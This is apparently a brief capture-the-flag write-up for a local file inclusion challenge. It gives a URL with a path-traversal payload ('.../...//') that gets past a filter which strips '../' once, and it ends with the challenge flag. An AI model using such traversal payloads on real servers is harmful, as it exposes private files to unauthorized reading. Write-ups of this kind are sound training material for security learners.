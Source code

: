 Due to not fully checking for LFI you can get the flag

http://188.166.156.37:30664/?lang=.../...//.../...//flag

CHTB{b4d_4li3n_pr0gr4m1ng}